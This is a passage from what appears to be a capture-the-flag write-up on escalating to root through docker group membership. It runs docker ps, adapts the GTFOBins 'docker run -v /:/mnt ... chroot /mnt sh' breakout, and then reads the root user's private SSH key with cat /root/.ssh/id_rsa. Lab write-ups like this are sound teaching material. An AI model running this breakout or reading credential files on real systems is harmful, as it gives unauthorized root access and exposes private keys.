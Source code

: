 I ran my [usual list of commands](../../README.md#linux-privilege-escalation). The id command shows that I have access to the 116(docker) group.

I checked if any containers were running with thhe following command:

```bash
$ docker ps -a
CONTAINER ID    IMAGE   COMMAND                       CREATED       STATUS                     PORTS    NAMES
7beaaeecd784    bash    "docker-entrypoint.s\u2026"   6 years ago   Exited (130) 6 years ago            unruffled_shockley
696fb9b45ae5    bash    "docker-entrypoint.s\u2026"   6 years ago   Exited (127) 6 years ago            boring_varahamihira
9811859c4c5c    bash    "docker-entrypoint.s\u2026"   6 years ago   Exited (127) 6 years ago            boring_volhard
```

I see that no containers are running and all of them use the bash image.

Since this user is part of the docker group, I checked [GTFOBins](https://gtfobins.github.io/gtfobins/docker/#shell) to see what it says about docker. Here is what it says:

> Shell
>
> It can be used to break out from restricted environments by spawning an interactive system shell.
>
> The resulting is a root shell.
>
> ```bash
> docker run -v /:/mnt --rm -it alpine chroot /mnt sh
> ```

I ran that command and it couldn't find the alpine image because this box doesn't have an internet connection. I know that I have the bash image and so I adjusted my command to the following:

```bash
$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

It worked. I'm in! The cursor changed to the # character to let me know that I am root.

## What are the first 9 characters of the root user's private SSH key?

I ran the following to get the SSH key:

```bash
# cat /root/.ssh/id_rsa
```
